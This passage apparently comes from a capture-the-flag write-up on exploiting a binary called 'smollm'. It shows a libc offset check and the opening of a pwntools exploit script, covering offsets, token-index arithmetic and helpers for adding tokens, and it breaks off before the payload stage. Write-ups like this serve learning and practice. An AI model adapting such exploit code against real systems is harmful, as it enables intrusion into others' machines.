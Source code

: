 3. **Verify offsets:**
   ```bash
   # Check if offsets match remote libc
   strings libc.so.6 | grep "GNU C Library"
   ```

---

## Final Exploit

Here's the complete, working exploit:

```python
#!/usr/bin/env python3
from pwn import *

# ============================================================================
# CONFIGURATION
# ============================================================================
context.arch = 'amd64'
context.log_level = 'info'

exe = ELF('./smollm_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)

# Constants
BINARY_OFFSET = 0x3098
LIBC_OFFSET = 0x2a1ca

# State tracking
n_tokens = 0x6a  # 106 initial tokens
combinator = 0x0

# ============================================================================
# HELPER FUNCTIONS
# ============================================================================
def calc_input(idx):
    """
    Calculate which input byte will select the desired token index.
    
    Formula: token_index = (input_byte + combinator) % n_tokens
    Solve for input_byte: input_byte = (token_index - combinator) % n_tokens
    
    Args:
        idx: Token index we want to select
    
    Returns:
        Byte value to send
    """
    global combinator, n_tokens
    payload = (idx - combinator) % n_tokens
    combinator += 1
    return payload

def add_token(token):
    """
    Add a custom 8-byte token to the program.
    
    Args:
        token: 8-byte string to add as token
    """
    global n_tokens
    io.sendlineafter(b">", b"1")
    io.sendafter(b"?>", token)
    n_tokens = n_tokens + 1
```